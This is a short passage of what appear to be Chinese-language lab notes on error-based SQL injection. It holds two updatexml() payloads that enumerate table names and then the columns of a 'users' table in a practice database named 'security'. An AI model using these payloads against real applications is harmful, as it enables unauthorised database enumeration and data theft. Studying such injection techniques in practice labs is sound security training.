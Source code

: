 ```sql
//爆表名
and updatexml(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema='security'),0x7e),1) --+ 
```

![](file/image_01mHpduoVe.png)

```sql
//爆字段名
and updatexml(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users'),0x7e),1) --+ 
```
